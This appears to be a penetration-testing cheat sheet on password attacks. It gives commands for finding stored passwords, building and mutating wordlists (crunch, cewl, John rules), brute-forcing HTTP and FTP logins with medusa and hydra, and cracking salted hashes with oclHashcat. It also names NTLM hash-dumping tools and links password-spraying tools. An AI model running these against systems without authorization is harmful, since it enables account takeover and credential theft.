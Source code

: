 # Finding Passwords
```
grep -rl hash
grep -rl password
```

# Wordlist creation
```
crunch 6 6 0123456789ABCDEF -o list.txt
crunch 8 8 -t ,@@^^%%%
```
```
/usr/share/crunch/charset.lsr mixalpha -o  mixda.txt
```

# Wordlist using keywords from a site
```
cewl example.com -m 6 -w out.txt
```

# Mutate wordlists
```
/etc/john/john.conf
> $[0-9]$[0-9]
```

```
john --wordlist=out.txt --rules --stdout > mutated.txt
```

# Tools
- pwdump
- fgdump
- windows credential editor (WCE) - Steal NTLM hashes from memory and auth modules

# Password Cracking
```
john hashes.txt
```

# Htaccess

```
medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
```

# FTP
```
hydra  -l admin -P pass.txt -v ip ftp
```

# Basic Auth
```
cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
```

# Salted Hash Cracking

## oclHashcat

oclHashcat input file should be in format: `passwordhash:salt`

```
oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
```

# Password Spraying

- Spray: https://github.com/SpiderLabs/Spray
- Password spraying using AWS Lambda for IP rotation: https://github.com/ustayready/CredKing
